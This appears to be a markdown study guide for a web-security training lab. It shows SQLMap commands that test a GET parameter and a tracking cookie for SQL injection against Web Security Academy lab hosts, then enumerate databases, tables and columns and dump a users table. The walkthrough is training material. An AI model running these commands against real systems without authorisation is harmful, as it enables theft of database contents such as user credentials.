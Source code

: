 ## Using SQLMap to Enumerate Database Information

  Below is an an example/walk-through for how to use SQLMap to obtain the database information.
  
<br>

### Important Note:  Once the database type, table name and column names are known ensure to use the following flags to speed up the process:

--dbms='database'

-T 'users - or whatever table name'

-C 'username'

<br> <br>

### Using SQLMap to target a GET Query Parameter in the application

Enumerate Database Type

```
sqlmap -u https://0a9f00ac036aa21182df744400850086.web-security-academy.net/filter?category=Pets -p category --dbs -batch
```

Enumerate Tables

```
sqlmap -u https://0a9f00ac036aa21182df744400850086.web-security-academy.net/filter?category=Pets -p category --tables -batch
```

Enumerate Columns

```
sqlmap -u https://0a9f00ac036aa21182df744400850086.web-security-academy.net/filter?category=Pets -p category --columns -batch
```

  Specify Table to Target

```
sqlmap -u https://0a9f00ac036aa21182df744400850086.web-security-academy.net/filter?category=Pets -p category --columns -batch -T users_hxvtqz
```

Dump All the Data from Table

```
sqlmap -u https://0a9f00ac036aa21182df744400850086.web-security-academy.net/filter?category=Pets -p category --dump -batch -T users_hxvtqz
```


<br> <br> 

### Using SQLMap to target a Cookie in the application

  * Resource - https://stackoverflow.com/questions/24366856/how-to-inject-a-part-of-cookie-using-sqlmap


Enumerate Database Type

```
sqlmap -u https://0a6600e9036a2a438304b10900d80096.web-security-academy.net/ --cookie='TrackingId=xxx' -p 'TrackingId' --param-filter='COOKIE' --level=2 --dbs -batch
```

Enumerate Tables

```
sqlmap -u https://0a6600e9036a2a438304b10900d80096.web-security-academy.net/ --cookie='TrackingId=xxx' -p 'TrackingId' --param-filter='COOKIE' --level=2 --tables --dbms='PostgreSQL' -batch
```

Enumerate Columns

```
sqlmap -u https://0a6600e9036a2a438304b10900d80096.web-security-academy.net/ --cookie='TrackingId=xxx' -p 'TrackingId' --param-filter='COOKIE' --level=2 --columns --dbms='PostgreSQL' -T 'users'  -batch
```

<br> <br> 

### Use SQLMap to target a POST request body parameter

   * https://hackertarget.com/sqlmap-post-request-injection/
